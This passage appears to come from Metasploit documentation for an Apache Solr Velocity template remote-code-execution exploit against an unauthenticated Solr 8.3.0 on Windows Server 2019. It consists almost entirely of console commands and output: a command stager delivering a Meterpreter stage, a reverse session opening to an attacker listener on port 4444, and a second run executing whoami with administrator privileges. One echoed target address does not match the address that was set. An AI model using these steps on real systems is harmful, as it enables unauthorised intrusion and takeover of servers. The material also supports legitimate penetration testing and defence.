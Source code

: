 ```
[*] Command Stager progress -  14.10% done (14320/101541 bytes)
[*] Command Stager progress -  21.15% done (21480/101541 bytes)
[*] Command Stager progress -  28.21% done (28640/101541 bytes)
[*] Command Stager progress -  35.26% done (35800/101541 bytes)
[*] Command Stager progress -  42.31% done (42960/101541 bytes)
[*] Command Stager progress -  49.36% done (50120/101541 bytes)
[*] Command Stager progress -  56.41% done (57280/101541 bytes)
[*] Command Stager progress -  63.46% done (64440/101541 bytes)
[*] Command Stager progress -  70.51% done (71600/101541 bytes)
[*] Command Stager progress -  77.56% done (78760/101541 bytes)
[*] Command Stager progress -  84.62% done (85920/101541 bytes)
[*] Command Stager progress -  91.67% done (93080/101541 bytes)
[*] Command Stager progress -  98.67% done (100188/101541 bytes)
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Command Stager progress - 100.00% done (101541/101541 bytes)
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.155:50211) at 2020-03-29 00:06:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, with payload `cmd/windows/generic`
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > set TARGET 4
TARGET => 4
msf exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] 2k19dtctr\administrator
[*] Exploit completed, but no session was created.
msf exploit(multi/http/solr_velocity_rce) >
```
